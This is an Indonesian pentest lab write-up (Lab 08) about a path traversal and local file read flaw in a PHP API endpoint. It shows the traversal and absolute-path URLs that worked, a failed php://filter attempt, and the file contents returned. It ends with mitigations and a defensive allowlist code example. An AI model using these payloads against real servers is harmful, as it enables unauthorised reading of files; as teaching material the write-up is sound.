


# Lab 08 — Local File Inclusion (LFI) pada API

> **Status:** Solved  
> **Exam:** 01  
> **Target:** `/ujianapi2/lfi.php`  
> **Kategori:** Local File Inclusion (LFI), Path Traversal, Arbitrary File Read  
> **Lingkungan:** Lab pentest yang diizinkan

## 1. Informasi Lab

| Informasi | Keterangan |
|---|---|
| Lab | 08 |
| Host lab | `192.168.39.87` |
| Endpoint | `/ujianapi2/lfi.php` |
| Parameter | `page` |
| File target | `/home/data/apilfi.txt` |
| Metode berhasil | Relative Path Traversal dan Direct Absolute Path |
| Metode gagal | `php://filter/convert.base64-encode` |
| Hasil | Endpoint mengembalikan isi file target dalam JSON |

Lab 08 masih berkaitan dengan **Lab 07** karena menggunakan aplikasi dan direktori `/ujianapi2/` yang sama. Namun, fokus Lab 08 adalah pembacaan file melalui parameter `page`, bukan autentikasi API.

## 2. Tujuan Pembelajaran

- Memahami bagaimana parameter `page` digunakan untuk menentukan file yang dibaca server.
- Membandingkan **relative path traversal** dengan **absolute path**.
- Mengamati struktur respons JSON ketika file berhasil dibaca dan ketika pembacaan gagal.
- Memahami bahwa `php://filter` tidak selalu menghasilkan hasil yang sama pada setiap endpoint.
- Membedakan observasi pengujian dari dugaan mengenai implementasi backend.

## 3. Environment dan Akses Target

Target tersedia pada jaringan internal lab:

```text
http://192.168.39.87/ujianapi2/lfi.php
```

Jika menggunakan SSH local port forwarding dari Lab 00, host target dapat diakses dari laptop melalui `localhost:8080`, **asalkan** tunnel diarahkan ke web server lab.

**Alur akses:**

```text
Laptop penguji
      |
      v
SSH Tunnel / VPS (opsional)
      |
      v
192.168.39.87
      |
      v
/ujianapi2/lfi.php?page=...
```


> **Screenshot 01:** Ganti dengan tampilan awal endpoint atau respons awal saat mengakses `lfi.php`.

## 4. Identifikasi Parameter `page`

Endpoint menerima parameter `page`:

```text
/ujianapi2/lfi.php?page=<lokasi-file>
```

Dari hasil pengujian, nilai parameter tersebut dapat diarahkan ke file lokal di luar direktori aplikasi. Dua bentuk path berikut terbukti berhasil dalam lingkungan lab:

1. Relative path dengan `../`.
2. Absolute path yang dimulai dari root filesystem `/`.

## 5. Pengujian Pertama — Relative Path Traversal

**URL yang berhasil:**

```text
http://192.168.39.87/ujianapi2/lfi.php?page=../../../home/data/apilfi.txt
```

Bagian penting:

```text
../../../home/data/apilfi.txt
└─ naik 3 tingkat ─┘└─ lokasi file tujuan ─┘
```

`../` digunakan untuk berpindah ke parent directory. Dalam percobaan ini, tiga kali `../` cukup untuk mencapai lokasi file yang dimaksud berdasarkan cara endpoint menyelesaikan path.

**Respons teramati:**

```json
{
  "status": "success",
  "data": "https:\/\/chat.whatsapp.com\/KwYhCpj2trjY\n"
}
```

> `\/` merupakan representasi escape karakter `/` yang valid dalam JSON. `\n` berarti karakter newline di akhir isi file. Jangan mengunggah tautan undangan asli ke repo publik tanpa menyensornya.



> **Screenshot 02:** Ganti dengan URL relative path dan JSON hasil pengujian. Sensor kode undangan jika repo dipublikasikan.

## 6. Pengujian Kedua — Direct Absolute Path

**URL yang berhasil:**

```text
http://192.168.39.87/ujianapi2/lfi.php?page=/home/data/apilfi.txt
```

Berbeda dengan relative path, absolute path langsung menyebut lokasi file mulai dari root `/`:

```text
/
└── home/
    └── data/
        └── apilfi.txt
```

Metode ini juga menghasilkan respons sukses berisi data yang sama:

```json
{
  "status": "success",
  "data": "https:\/\/chat.whatsapp.com\/KwYhCpj2trjY\n"
}
```

Hasil ini memperlihatkan bahwa parameter `page` tidak hanya menerima path relatif dari lokasi aplikasi, tetapi juga dapat menerima absolute path menuju file lain pada server.


> **Screenshot 03:** Ganti dengan URL absolute path dan respons sukses.

## 7. Pengujian Ketiga — PHP Filter

Saya juga mencoba menggunakan PHP stream wrapper `php://filter` untuk meminta file dibaca melalui filter Base64, seperti konsep yang dipelajari pada Lab 07.

**URL yang diuji:**

```text
http://192.168.39.87/ujianapi2/lfi.php?page=php://filter/convert.base64-encode/resource=../../../home/data/apilfi.txt
```

**Respons teramati:**

```json
{
  "status": "fail",
  "message": "File not found"
}
```

Percobaan ini **tidak berhasil**. Walaupun `php://filter` dapat digunakan pada situasi tertentu untuk memproses file, hasil tersebut tidak cukup untuk memastikan alasan kegagalannya. Penyebab yang mungkin mencakup validasi input, fungsi pembacaan backend yang berbeda, atau resolusi path yang tidak sesuai. Kode `lfi.php` belum tersedia dalam catatan ini sehingga akar penyebab spesifiknya belum dapat dipastikan.



> **Screenshot 04:** Ganti dengan URL PHP filter dan respons `File not found`.

## 8. Perbandingan Hasil Pengujian

| Pengujian | Bentuk input | Respons |
|---|---|---|
| Relative Path Traversal | `../../../home/data/apilfi.txt` | `success` |
| Direct Absolute Path | `/home/data/apilfi.txt` | `success` |
| PHP Filter | `php://filter/convert.base64-encode/resource=...` | `fail`: `File not found` |

**Temuan utama:** Endpoint memberikan akses terhadap file lokal di luar direktori web menggunakan relative path ataupun absolute path. Percobaan filter Base64 gagal pada endpoint ini, meskipun pendekatan serupa berhasil digunakan untuk pengungkapan source code pada Lab 07 melalui endpoint yang berbeda (`/ujianac/`).

## 9. Analisis Kerentanan

### Path Traversal

Pola `../` memungkinkan perpindahan ke parent directory. Jika aplikasi menggunakan input pengguna untuk menyusun path tanpa membatasi lokasi akhir, pengguna dapat mengakses file di luar direktori yang semestinya.

### Arbitrary File Read / LFI

Hasil Lab 08 membuktikan adanya **pembacaan file lokal di luar direktori aplikasi** melalui parameter `page`. Istilah *Local File Inclusion* (LFI) sering dipakai untuk kasus semacam ini, khususnya bila backend menggunakan fungsi `include`/`require` PHP. Tanpa source code `lfi.php`, klasifikasi paling tepat berdasarkan bukti saat ini adalah **Arbitrary Local File Read melalui parameter yang rentan terhadap Path Traversal**.

### Apakah ini SSRF?

Tidak ada bukti SSRF dari pengujian yang dicatat. Walaupun nama file target adalah `apilfi.txt` dan modul sebelumnya memakai file bernama `ssrf10.txt`, nama file tidak menentukan kategori kerentanan. SSRF memerlukan bukti bahwa server membuat permintaan ke resource atau alamat yang dikendalikan melalui input pengguna.

## 10. Alur Penyelesaian Lab

```text
Mengakses /ujianapi2/lfi.php
             |
             v
Mengidentifikasi parameter page
             |
             v
Mencoba relative path ../../../
             |
             v
Mendapat respons success
             |
             v
Mencoba absolute path /home/data/...
             |
             v
Mendapat respons success
             |
             v
Mencoba php://filter Base64
             |
             v
Mendapat respons File not found
             |
             v
Mencatat keberhasilan, kegagalan,
dan batas kesimpulan pengujian
```

## 11. Root Cause dan Mitigasi

**Dugaan akar masalah:** Nilai `page` dapat mengontrol path file yang dibaca tanpa pembatasan yang memadai terhadap direktori atau daftar file yang diizinkan. Ini merupakan inferensi dari perilaku endpoint, bukan hasil audit source code.

**Mitigasi:**

1. **Allowlist:** Terima hanya identifier file yang sudah ditetapkan aplikasi; hindari menerima filesystem path langsung dari pengguna.
2. **Canonical path validation:** Jika path dinamis diperlukan, lakukan normalisasi dan pastikan lokasi akhirnya tetap di dalam direktori yang diizinkan.
3. **Least privilege:** Batasi izin baca proses web server hanya pada file yang benar-benar diperlukan.
4. **Tidak mengekspos detail internal:** Kembalikan pesan error yang sesuai tanpa membocorkan struktur filesystem atau source code.
5. **Pengujian regresi:** Pastikan relative path, absolute path, dan stream wrapper yang tidak diizinkan ditolak oleh endpoint.

**Contoh PHP defensif menggunakan allowlist:**

```php
<?php
$allowedFiles = [
    'panduan' => __DIR__ . '/public/panduan.txt',
    'harga'   => __DIR__ . '/public/daftarharga.txt',
];

$key = $_GET['page'] ?? '';

if (!array_key_exists($key, $allowedFiles)) {
    http_response_code(403);
    echo json_encode(['status' => 'fail', 'message' => 'Access denied']);
    exit;
}

$path = $allowedFiles[$key];
if (!is_file($path) || !is_readable($path)) {
    http_response_code(404);
    echo json_encode(['status' => 'fail', 'message' => 'File not found']);
    exit;
}

header('Content-Type: application/json');
echo json_encode(['status' => 'success', 'data' => file_get_contents($path)]);
```

## 12. Hubungan dengan Lab Sebelumnya

| Lab | Teknik | Hubungan dengan Lab 08 |
|---|---|---|
| 01 | Path Traversal | Menggunakan `../` untuk mengakses file lokal |
| 05 | Arbitrary File Read | Membaca file melalui absolute path pada parameter berbeda |
| 07 | Source Code Disclosure | Menggunakan `php://filter` pada endpoint Lab 05 untuk membaca source code API |
| 08 | API File Read | Membuktikan relative path dan absolute path berhasil pada `/ujianapi2/lfi.php` |

**Pelajaran penting:** Keberhasilan suatu teknik dapat berbeda antar endpoint karena perilaku dan implementasi backend masing-masing tidak selalu sama.

## 13. Checklist Pembelajaran

- [ ] Dapat menjelaskan fungsi `page=` pada endpoint ini.
- [ ] Dapat menjelaskan cara kerja `../`.
- [ ] Dapat membedakan relative path dan absolute path.
- [ ] Dapat membaca struktur respons JSON `success` dan `fail`.
- [ ] Memahami peran `php://filter` dan Base64 pada Lab 07.
- [ ] Tidak menyimpulkan akar penyebab kegagalan filter tanpa bukti tambahan.
- [ ] Dapat membedakan Path Traversal, LFI, Arbitrary File Read, dan SSRF.
- [ ] Dapat menjelaskan mitigasi dengan allowlist dan least privilege.

## 14. Kesimpulan

Pada Lab 08, saya berhasil membaca file `/home/data/apilfi.txt` melalui `/ujianapi2/lfi.php` menggunakan relative path `../../../` dan direct absolute path. Kedua metode menghasilkan respons `success` dengan isi file yang sama. Percobaan menggunakan `php://filter` menghasilkan `File not found`, dan penyebab teknis spesifiknya belum dapat dipastikan hanya dari respons tersebut.

Latihan ini memperkuat pemahaman bahwa parameter pembacaan file perlu dibatasi secara ketat. Keberhasilan suatu teknik pada satu endpoint tidak otomatis berlaku pada endpoint lain, sehingga setiap kesimpulan harus didasarkan pada respons yang benar-benar diamati.

## 15. Cheat Sheet

```text
LAB          : 08
PATH         : /ujianapi2/lfi.php
PARAMETER    : page
CATEGORY     : Path Traversal / Arbitrary Local File Read
RELATIVE     : ../../../home/data/apilfi.txt
ABSOLUTE     : /home/data/apilfi.txt
PHP FILTER   : File not found
RESULT       : Relative dan absolute path berhasil
MAIN DEFENSE : File allowlist, canonical path validation,
               least privilege
```

> **Catatan publikasi:** Sensor tautan WhatsApp, kredensial, token, dan detail akses privat lab sebelum mengunggah dokumentasi ke repository publik.
